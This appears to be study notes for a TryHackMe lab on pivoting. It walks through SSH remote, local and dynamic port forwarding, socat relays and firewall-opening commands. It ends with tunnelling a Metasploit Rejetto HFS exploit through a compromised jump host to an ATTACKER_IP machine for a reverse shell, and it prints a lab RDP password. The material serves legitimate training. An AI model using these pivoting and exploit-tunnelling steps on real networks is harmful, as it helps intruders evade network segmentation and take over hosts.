







Port Forwarding
Port Forwarding
Most of the lateral movement techniques we have presented require specific ports to be available for an attacker. In real-world networks, the administrators may have blocked some of these ports for security reasons or have implemented segmentation around the network, preventing you from reaching SMB, RDP, WinRM or RPC ports.
To go around these restrictions, we can use port forwarding techniques, which consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others, as every role in a business will have different needs in terms of what network services are required for day-to-day work.
A) SSH Tunnelling
The first protocol we'll be looking at is SSH, as it already has built-in functionality to do port forwarding through a feature called SSH Tunneling. While SSH used to be a protocol associated with Linux systems, Windows now ships with the OpenSSH client by default, so you can expect to find it in many systems nowadays, independent of their operating system.
SSH Tunnelling can be used in different ways to forward ports through an SSH connection, which we'll use depending on the situation. To explain each case, let's assume a scenario where we've gained control over the PC-1 machine (it doesn't need to be administrator access) and would like to use it as a pivot to access a port on another machine to which we can't directly connect. We will start a tunnel from the PC-1 machine, acting as an SSH client, to the Attacker's PC, which will act as an SSH server. The reason to do so is that you'll often find an SSH client on Windows machines, but no SSH server will be available most of the time.

Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
Depending on your needs, the SSH tunnel can be used to do either local or remote port forwarding. Let's take a look at each case.
I) SSH Remote Port Forwarding
In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. Remote port forwarding allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a remote SSH server (the attacker's machine).
As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

A valid question that might pop up by this point is why we need port forwarding if we have compromised PC-1 and can run an RDP session directly from there. The answer is simple: in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have a GUI. By making the port available to your attacker's machine, you can use a Linux RDP client to connect. Similar situations arise when you want to run an exploit against a port that can't be reached directly, as your exploit may require a specific scripting language that may not always be available at machines you compromise along the way.
Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
This will establish an SSH session from PC-1 to 1.1.1.1 (Attacker PC) using the tunneluser user.
Since the tunneluser isn't allowed to run a shell on the Attacker PC, we need to run the ssh command with the -N switch to prevent the client from requesting one, or the connection will exit immediately. The -R switch is used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at the SSH server (3389), followed by a colon and then the IP and port of the socket we'll be forwarding (3.3.3.3:3389). Notice that the port numbers don't need to match, although they do in this example.
The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.
Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:
xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
II) SSH Local Port Forwarding
Local port forwarding allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.
Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

To forward port 80 from the attacker's machine and make it available from PC-1, we can run the following command on PC-1:
ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
The command structure is similar to the one used in remote port forwarding but uses the -L option for local port forwarding. This option requires us to indicate the local socket used by PC-1 to receive connections (*:80) and the remote socket to connect to from the attacker's PC perspective (127.0.0.1:80).
Notice that we use the IP address 127.0.0.1 in the second socket, as from the attacker's PC perspective, that's the host that holds the port 80 to be forwarded.
Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with dir=in). Administrative privileges are needed for this:
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
Once your tunnel is set up, any user pointing their browsers to PC-1 at http://2.2.2.2:80 and see the website published by the attacker's machine.
B) Port Forwarding With socat
In situations where SSH is not available, socat can be used to perform similar functionality. While not as flexible as SSH, socat allows you to forward ports in a much simpler way. One of the disadvantages of using socat is that we need to transfer it to the pivot host (PC-1 in our current example), making it more detectable than SSH, but it might be worth a try where no other option is available.
The basic syntax to perform port forwarding using socat is much simpler. If we wanted to open port 1234 on a host and forward any connection we receive there to port 4321 on host 1.1.1.1, you would have the following command:
socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321
Note: We can also add the reuseaddr option after fork. (It helps in automatic server restarts)
The fork option allows socat to fork a new process for each connection received, making it possible to handle multiple connections without closing. If you don't include it, socat will close when the first connection made is finished.
Coming back to our example, if we wanted to access port 3389 on the server using PC-1 as a pivot as we did with SSH remote port forwarding, we could use the following command:
socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389
Note that socat can't forward the connection directly to the attacker's machine as SSH did but will open a port on PC-1 that the attacker's machine can then connect to:

As usual, since a port is being opened on the pivot host, we might need to create a firewall rule to allow any connections to that port:
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
If, on the other hand, we'd like to expose port 80 from the attacker's machine so that it is reachable by the server, we only need to adjust the command a bit:
socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80
As a result, PC-1 will spawn port 80 and listen for connections to be forwarded to port 80 on the attacker's machine:

C) Dynamic Port Forwarding and SOCKS
While single port forwarding works quite well for tasks that require access to specific sockets, there are times when we might need to run scans against many ports of a host, or even many ports across many machines, all through a pivot host. In those cases, dynamic port forwarding allows us to pivot through a host and establish several connections to any IP addresses/ports we want by using a SOCKS proxy.
Since we don't want to rely on an SSH server existing on the Windows machines in our target network, we will normally use the SSH client to establish a reverse dynamic port forwarding with the following command:
ssh tunneluser@1.1.1.1 -R 9050 -N
In this case, the SSH server will start a SOCKS proxy on port 9050, and forward any connection request through the SSH tunnel, where they are finally proxied by the SSH client.
The most interesting part is that we can easily use any of our tools through the SOCKS proxy by using proxychains. To do so, we first need to make sure that proxychains is correctly configured to point any connection to the same port used by SSH for the SOCKS proxy server. The proxychains configuration file can be found at /etc/proxychains.conf on your AttackBox. If we scroll down to the end of the configuration file, we should see a line that indicates the port in use for socks proxying:
[ProxyList]
socks4 127.0.0.1 9050
The default port is 9050, but any port will work as long as it matches the one we used when establishing the SSH tunnel.
If we now want to execute any command through the proxy, we can use proxychains:
proxychains curl http://pxeboot.za.tryhackme.com
Note that some software like nmap might not work well with SOCKS in some circumstances, and might show altered results, so your mileage might vary.
Practical Room Task
We will be given SSH credential of THMJMP2 machine. (Acts as already compromised Host)
The THMIIS Server is only accessible from the THMJMP2 machine. (Not from our attacker machine)
Thus, we will use Port forwarding to access RDP on THMIIS Server.
Our first objective will be to connect via RDP to THMIIS. If we try to connect directly from our attacker machine, we will find that port 3389 has been filtered via a firewall and is therefore not available directly. However, the port is up and running but can only be accessed from THMJMP2. By using socat, which is available on C:\tools\socat\ on THMJMP2, we will forward the RDP port to make it available on THMJMP2 to connect from our attacker's machine.
To do so, we will run socat with the following parameters:
socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
Note that we can't use port 3389 for our listener since it is already being used in THMJMP2 for its own RDP service. Feel free to change the listener port (13389) to a different number to avoid clashing with other students. In a typical setup, you'd have to add a firewall rule to allow traffic through the listener port, but THMJMP2 has its firewall disabled for your convenience.
Once the listener has been set up, you should be able to connect to THMIIS via RDP from your attacker machine by pivoting through your socat listener at THMJMP2:
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
Tunnelling Complex Exploits
he THMDC server is running a vulnerable version of Rejetto HFS. The problem we face is that firewall rules restrict access to the vulnerable port so that it can only be viewed from THMJMP2. Furthermore, outbound connections from THMDC are only allowed machines in its local network, making it impossible to receive a reverse shell directly to our attacker's machine. To make things worse, the Rejetto HFS exploit requires the attacker to host an HTTP server to trigger the final payload, but since no outbound connections are allowed to the attacker's machine, we would need to find a way to host a web server in one of the other machines in the same network, which is not at all convenient. We can use port forwarding to overcome all of these problems.
First, let's take a look at how the exploit works. First, it will connect to the HFS port (RPORT in Metasploit) to trigger a second connection. This second connection will be made against the attacker's machine on SRVPORT, where a web server will deliver the final payload. Finally, the attacker's payload will execute and send back a reverse shell to the attacker on LPORT:

With this in mind, we could use SSH to forward some ports from the attacker's machine to THMJMP2 (SRVPORT for the web server and LPORT to receive the reverse shell) and pivot through THMJMP2 to reach RPORT on THMDC. We would need to do three port forwards in both directions so that all the exploit's interactions can be proxied through THMJMP2:

Red (1) : Remote Tunnel
Green (2) : Local Tunnel
Rejetto HFS will be listening on port 80 on THMDC, so we need to tunnel that port back to our attacker's machine through THMJMP2 using remote port forwarding. Since the attackbox has port 80 occupied with another service, we will need to link port 80 on THMDC with some port not currently in use by the attackbox. Let's use port 8888. When running ssh in THMJMP2 to forward this port, we would have to add -R 8888:thmdc.za.tryhackme.com:80 to our command.
For SRVPORT and LPORT, let's choose two random ports at will. For demonstrative purposes, we'll set SRVPORT=6666 and LPORT=7777, but be sure to use different ports as the lab is shared with other students, so if two of you choose the same ports, when trying to forward them, you'll get an error stating that such port is already in use on THMJMP2.
To forward such ports from our attacker machine to THMJMP2, we will use local port forwarding by adding -L *:6666:127.0.0.1:6666 and -L *:7777:127.0.0.1:7777 to our ssh command. This will bind both ports on THMJMP2 and tunnel any connection back to our attacker machine.
Putting the whole command together, we would end up with the following:
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N
Once all port forwards are in place, we can start Metasploit and configure the exploit so that the required ports match the ones we have forwarded through THMJMP2:

There is a lot to unpack here:
▪ The LHOST parameter usually serves two purposes: it is used as the IP where a listener is bound on the attacker's machine to receive a reverse shell; it is also embedded on the payload so that the victim knows where to connect back when the exploit is triggered. In our specific scenario, since THMDC won't be able to reach us, we need to force the payload to connect back to THMJMP2, but we need the listener to bind to the attacker's machine on 127.0.0.1. To this end, Metasploit provides an optional parameter ReverseListenerBindAddress, which can be used to specify the listener's bind address on the attacker's machine separately from the address where the payload will connect back. In our example, we want the reverse shell listener to be bound to 127.0.0.1 on the attacker's machine and the payload to connect back to THMJMP2 (as it will be forwarded to the attacker machine through the SSH tunnel).
▪ Our exploit must also run a web server to host and send the final payload back to the victim server. We use SRVHOST to indicate the listening address, which in this case is 127.0.0.1, so that the attacker machine binds the webserver to localhost. While this might be counterintuitive, as no external host would be able to point to the attacker's machine localhost, the SSH tunnel will take care of forwarding any connection received on THMJMP2 at SRVPORT back to the attacker's machine.
▪ The RHOSTS is set to point to 127.0.0.1 as the SSH tunnel will forward the requests to THMDC through the SSH tunnel established with THMJMP2. RPORT is set to 8888, as any connection sent to that port on the attacker machine will be forwarded to port 80 on THMDC.
After launching the exploit, you will receive a shell back at the attacker's machine.